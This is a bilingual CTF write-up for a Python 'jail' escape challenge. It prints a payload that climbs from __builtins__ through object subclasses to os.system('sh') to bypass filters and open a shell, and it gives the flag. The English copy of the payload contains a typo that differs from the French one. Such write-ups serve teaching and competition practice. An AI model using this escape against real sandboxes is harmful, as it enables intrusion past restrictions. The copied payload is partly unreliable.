

#### Categorie: PWN
#### **Author**: 5c0r7
#### Solve: 15/20 
#### Points: 500 pts (at first)| 360 pts (at end)

#### Write-up by:[0xJekyll](https://twitter.com/Ted_Kouhouenou) 

### Description : 
#### **[FR]**
Un autre jail, échappe les filtres.
#### **[EN]**
Another jail, bypass the filters.

`nc 54.37.70.250 1004`


## Solution :
### Fr Version : 

`For ENG version scroll down` 


Ce châle fait référence au Chall du Qualification Stage des qualifications du HackerLab 2023[gankpame](https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf)  <- (Le writeup)

Comme lors de la premiere parie de ce chall, nous avions utilisé un payload python 
et aussi comme lors de la première partie nous avions des restrictions sur le payload à utiliser lui même comme la longueur de la chaîne à utiliser ainsi que des fonctions interdites,ici, nous avons des filtres qui nous empêche d'effectuer certaines actions.
```python3
__builtins__['a']=__builtins__
a['b']=().__class__.__bases__
a['c']=b[0].__subclasses__()
a['d']=c[59].__init__
a['e']=d.__getattribute__
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g.__dict__
a['i']=h['OS'.lower()]
a['j']=i.__dict__ 
j['SYSTEM'.lower()]('sh')
```

Ce payload nous permet de réduire la taille en faisant des affectations continues de la chaîne du payload precedent en démarrant par les *builtins* la première classe de base et en descendant vers les sous-classes, afin d'obtenir une fonction pouvant nous aider à avoir un shell pour pouvoir afficher le flag qui ici est un fichier caché.



Flag : `CTF_d33p_1n5Pe(tion_0bJecT_Byp@Ss_b4s!c_Fi1t3r`


------------------------------------------------------------------------
### Eng Version 


This chall refers to the HackerLab 2023 Qualification Stage Qualification Chall
[gankpame](https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf) <- (The writeup)


As in the first part of this chall we used a python payload
and also like in the first part we had restrictions on the payload to use itself such as the length of the chain to use as well as prohibited functions, here we have filters and the restrictions on the size of the payload are still present .
```python3
__builtins__['a']=__builtins__
a['b']=().__class.bases__
a['c']=b[0].__subclasses__()
a['d']=c[59].__init__
a['e']=d.__getattribute__
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g.__dict__
a['i']=h['OS'.lower()]
a['j']=i.__dict__ 
j['SYSTEM'.lower()]('sh')
```
This payload allows us to reduce the size by making continuous assignments of the chain of the previous payload by starting with the *builtins* the first base class and going down to the subclasses in order to obtain a function that can help us to have a shell to be able to display the flag which here is a hidden file.


Flag : `CTF_d33p_1n5Pe(tion_0bJecT_Byp@Ss_b4s!c_Fi1t3r`
